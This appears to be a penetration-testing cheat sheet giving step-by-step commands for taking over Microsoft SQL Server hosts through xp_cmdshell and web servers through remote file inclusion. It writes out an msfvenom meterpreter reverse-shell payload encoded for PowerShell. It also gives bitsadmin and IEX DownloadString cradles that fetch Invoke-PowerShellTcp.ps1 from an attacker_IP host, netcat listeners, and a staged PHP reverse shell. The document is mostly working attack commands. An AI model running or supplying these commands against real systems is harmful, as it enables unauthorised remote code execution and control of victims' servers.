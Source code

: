 ## xp_cmdshell

```
# First enable xp
impacket-mssqlclient user:password@10.10.10.10
enable_xp_cmdshell

# Attacker machine
msfvenom --list encoders
msfvenom --payload windows/meterpreter/reverse_http LHOST=attacker_IP LPORT=8080 --format psh | msfvenom --payload - --platform win --arch x86 --encoder base64 NOEXIT SYSWOW64

# Back to target machine
xp_cmdshell powershell -e base64_payload_from_msf_venom

```

Here is an alternate path
```
# Target Machine
impacket-mssqlclient user:password@10.10.10.10
EXEC sp_configure 'Show Advanced Options', 1; 
reconfigure; 
sp_configure; 
EXEC sp_configure 'xp_cmdshell', 1 
reconfigure;
xp_cmdshell "whoami"

# Attacker Machine - make sure you have invoke-powershelltcp.ps1 script
python3 -m http.server 80 
rlwrap nc -lvnp 4444

# Target Machine
xp_cmdshell "bitsadmin.exe /transfer /Download /priority Foreground http://attacker_IP:80/Invoke-PowerShellTcp.ps1 c:\windows\temp\Invoke-PowerShellTcp.ps1"
or
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://attacker_IP/Invoke-PowerShellTcp.ps1\");"

Make sure you have the following at the end of the powershelltcp.ps1 script
Invoke-PowerShellTCP -Reverse -IPAddress attacker_IP -Port 4444
```

## RFI - Remote File Inclusion
Find a file path on URL that can read internal files on target (LFI) or read external pages from other sites (RFI). See below example on how to execute - (example is for a web server running on linux):

Attacker Machine - copy over the reverse shell payload to server folder.
```
cd /server
cp /usr/share/laudanum/php/php-reverse-shell.php .
```
Here make sure to edit the payload to be your attacker IP and port and run netcat.
```
gedit php-reverse-shell.php
python3 -m http.server 80
rlwrap nc -lvnp 443
```
